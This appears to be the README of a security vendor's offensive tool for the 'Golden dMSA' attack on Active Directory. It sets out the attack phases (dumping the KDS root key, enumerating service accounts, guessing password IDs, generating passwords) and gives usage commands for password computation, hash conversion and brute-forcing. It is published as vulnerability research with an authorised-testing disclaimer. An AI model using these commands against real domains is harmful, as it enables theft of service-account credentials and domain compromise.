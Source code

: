 # Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is available in this post [title](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```
![image](assets/Wordlist.jpg)


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```
![image](assets/Info.jpg)


Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```
![image](assets/Kds.jpg)


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```
![image](assets/Bruteforce.jpg)

## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA
